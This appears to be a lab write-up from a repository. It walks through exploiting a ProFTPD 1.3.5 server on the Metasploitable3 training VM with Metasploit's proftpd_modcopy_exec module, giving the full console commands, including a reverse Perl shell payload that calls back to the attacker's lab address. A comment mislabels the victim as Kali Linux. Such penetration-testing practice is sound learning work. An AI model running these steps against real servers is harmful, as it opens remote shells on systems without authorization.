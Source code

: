 # Metasploit Exploitation

This document outlines the process of exploiting a **ProFTPD 1.3.5** server on Metasploitable3 using the `proftpd_modcopy_exec` exploit in Metasploit.

## Exploitation Steps

### 1. Starting Metasploit Framework

Launched the Metasploit Console:

```bash
msfconsole
```

![attacker 1](./screenshots/attacker-1.png)

### 2. Selecting the Exploit

Used the `proftpd_modcopy_exec` module targeting ProFTPD 1.3.5:

```bash
use exploit/unix/ftp/proftpd_modcopy_exec
```

![attacker 2](./screenshots/attacker-2.png)

### 3. Configuring the Exploit

Verified settings:

```bash
show options
```

![attacker 3](./screenshots/attacker-3.png)

#### Set Parameters

```bash
set RHOSTS 192.168.56.102   # Victim's IP (Kali Linux)
set LHOST 192.168.56.101    # Attacker's IP (Kali Linux)
set SITEPATH /var/www/html/
```

![attacker 4](./screenshots/attacker-4.png)

### 4. Payload Configuration

Selected a Perl-based reverse shell payload for reliability:

```bash
set payload cmd/unix/reverse_perl
```

![attacker 5](./screenshots/attacker-5.png)

### 5. Executing the Exploit

Launched the exploit:

```bash
exploit
```

![attacker 6](./screenshots/attacker-6.png)
